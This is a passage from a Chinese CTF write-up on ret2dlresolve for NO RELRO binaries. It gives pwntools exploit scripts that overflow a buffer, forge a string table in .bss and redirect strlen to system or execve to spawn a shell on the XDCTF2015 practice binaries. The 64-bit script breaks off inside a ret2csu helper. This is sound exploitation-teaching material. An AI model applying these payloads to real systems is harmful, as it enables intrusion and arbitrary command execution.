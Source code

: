 ### NO RELRO

#### 32位

[main_no_relro_32](./elf/main_no_relro_32)
程序没有开启`RELRO`保护，我们可以直接修改`.dynamic`中的`STRTAB`的值指向我们伪造的字符串表，然后调用`_dl_runtime_resolve`即可将`strlen`重定向为`system`

```python
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
p    = process('./main_no_relro_32')
elf    = ELF('./main_no_relro_32')

dl          = 0x08048386
STRTAB      = 0x08049804 + 0x4
bss_addr    = elf.bss()
read_plt    = elf.plt['read']
strlen_plt  = elf.plt['strlen']
vuln_addr   = elf.symbols['vuln']

p.recvuntil('Welcome to XDCTF2015~!\n')

# 修改STRTAB的值指向bss段
p.send(b'a' * 112 + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(STRTAB) + p32(4))
p.send(p32(bss_addr - 0x20))

# 在bss段写入伪造的字符串
p.send(b'a' * 112 + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(bss_addr) + p32(15))
p.send(b'system\x00/bin/sh\x00')

# 调用strlen的plt的第二部分去重定向strlen
p.send(b'a' * 112 + p32(dl) + p32(vuln_addr) + p32(bss_addr + 7))

p.interactive()
```

#### 64位

[main_no_relro_64](./elf/main_no_relro_64)
和32位下原理一样，直接修改`.dynamic`中的`STRTAB`的值指向我们伪造的字符串表，然后调用`_dl_runtime_resolve`将`strlen`重定向为`execve`
但是要注意，64位下我们需要使用`ret2csu`来调用函数

```python
from pwn import*
context(arch='amd64', os='linux', log_level='debug')
p    = process('./main_no_relro_64')
elf    = ELF('./main_no_relro_64')

dl            = 0x4004F6
csu_part1    = 0x400750
csu_part2    = 0x400766
STRTAB        = 0x600988 + 8
bss_addr    = elf.bss()
read_got    = elf.got['read']
strlen_got    = elf.got['strlen']
vuln_addr    = elf.symbols['vuln']

#    使用ret2csu来调用函数
def csu(fun, edi, rsi, rdx):
    payload = b''
    payload += p64(csu_part2)
    payload += p64(0)    # add rsp, 8
    payload += p64(0)    # pop rbx
    payload += p64(1)    # pop rbp
```